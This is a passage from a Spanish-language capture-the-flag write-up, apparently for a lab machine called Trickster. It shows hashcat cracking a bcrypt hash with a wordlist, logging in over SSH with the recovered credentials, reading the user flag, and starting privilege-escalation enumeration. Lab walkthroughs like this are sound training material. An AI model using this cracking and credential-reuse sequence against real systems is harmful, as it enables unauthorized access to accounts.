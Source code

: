 > **For the cookie**: **new_cookie_key** is used to read the cookie. If the reading fails, PrestaShop tries to read the cookie with the old **cookie_key**. If the old key is valid, PrestaShop re-encrypts the cookie with **new_cookie_key** .

Entonces podemos utilizar el modo `3200` que corresponde a `bcrypt`

```console
C:\Users\pc\Desktop\hashcat-6.2.6>.\hashcat.exe -a 0 -m 3200 .\hash.txt .\rockyou.txt
....
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6y...yunCmm
Time.Started.....: Mon Sep 23 20:09:17 2024 (3 secs)
Time.Estimated...: Mon Sep 23 20:09:20 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    13996 H/s (8.69ms) @ Accel:4 Loops:2 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 38016/14344387 (0.27%)
Rejected.........: 0/38016 (0.00%)
Restore.Point....: 36864/14344387 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:14-16
Candidate.Engine.: Device Generator
Candidates.#1....: hockey5 -> 102183
Hardware.Mon.#1..: Temp: 55c Fan: 35% Util: 18% Core:1535MHz Mem:2000MHz Bus:8
```

Y conseguimos crackearla.

Entonces tenemos otras credenciales, `james:alwaysandforever`

Y podemos autenticarnos como `james` por SSH.
```console
$ sshpass -p 'alwaysandforever' ssh james@trickster.htb
james@trickster:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
```

También podemos leer la flag de usuario.
```console
james@trickster:~$ cat user.txt 
c23839860013e...
```

# Privilege Escalation

Enumerando los procesos de la máquina, vemos que existe `docker`
![Write-up Image](images/Screenshot_30.png)
